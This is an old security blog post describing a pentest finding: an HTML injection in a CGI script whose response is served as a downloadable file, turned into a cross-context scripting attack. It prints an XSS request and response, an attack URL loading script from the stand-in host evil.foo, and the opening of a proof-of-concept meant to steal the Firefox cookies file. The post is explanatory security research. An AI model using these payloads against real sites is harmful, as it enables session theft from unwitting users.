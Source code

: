 ```yaml
---
title: Content-Disposition Hacking
author: pagvac
date: Mon, 05 Nov 2007 12:44:31 GMT
template: post.pug
---
```


In a recent pentest, a colleague of mine pointed out to me a script/html injection vulnerability on one of the hosts we were testing. I then copied and pasted the GET request he forwarded to me on telnet and verified that JavaScript could indeed be injected through the non-sanitized parameter. There were no restrictions on the input length or types of characters. No filtering whatsoever. The attack goes as the following:

    GET /cgi-bin/vulnerable.cgi?param=<script>alert(document.location)</script> HTTP/1.1
    Host: www.target.foo
    Connection: close

    HTTP/1.1 200 OK
    Server: Apache
    **Content-Disposition: attachment; filename=button.html**
    Content-Length: 41
    Content-Type: application/octet-stream

    <script>alert(document.location)</script>

    This was very interesting. When I pasted the test URL (_http://www.target.foo/cgi-bin/vulnerable.cgi?param=<script>alert(document.location)</script>_) in my browser, I thought "OK, this is pretty useless, as the browser doesn't render the HTML/JS, but rather prompts me to either open or download the file `button.html`". The file to download would contain the payload supplied to the `param` parameter. Eventually, I realize that this happens due to the server returning a [Content-Disposition](http://support.microsoft.com/kb/260519)/attachment HTTP header (see Server's response above).

    Perhaps `vulnerable.cgi` was a legacy script that used to be used for dynamically generating the HTML of a menu button. For some reason the server appeared to be misconfigured and would return a `Content-Disposition` header when generating `button.html`. Whatever the case is, I then realized that this html injection bug wasn't as useless as I had thought, but could eventually lead to a _Cross-context Scripting_ attack. _The requirement is that the victim is tricked to open the file once the browser's download dialog appears (the kind of a drive-by-download attack would use)_. For those of you who don't know, the idea of a _Cross-context Scripting_ is to break from the domain-based sandbox to gain local-context privileges (a.k.a. local zone), so that your malicious script can gain access to any data in the local system. Let's proceed to the attack:

    http://victim.foo/cgi-bin/vulnerable.cgi?param=%3cscript%20src=http://evil.foo/evil.js%3e

    You might be better off including the whole payload directly, as opposed to including it from a third-party site through script src. I'm saying this because IE 7 won't allow you to call JavaScript from a third-party website when opening a HTML file locally. So to come around this, simply insert all the JavaScript in the HTML body directly. I prepared a PoC which is based on a payload I [wrote](/blog/web-pages-from-hell-2/) a year ago. The idea is that if the user is tricked to visit the attack URL, and then clicks on `Open as`, Firefox's cookies file - which contains the session IDs of ALL visited domains gets stolen. Not very nice, isn't it?

    // evil.js - Adrian Pastor (pagvac) - GNUCITIZEN.org
    document.write("<html><head></head><body><form method="POST"><input type="hidden" name="stolenfile"></form>");
    // This code was written by Tyler Akins and has been placed in the
    // public domain.  It would be nice if you left this header intact.
    // Base64 code from Tyler Akins -- http://rumkin.com
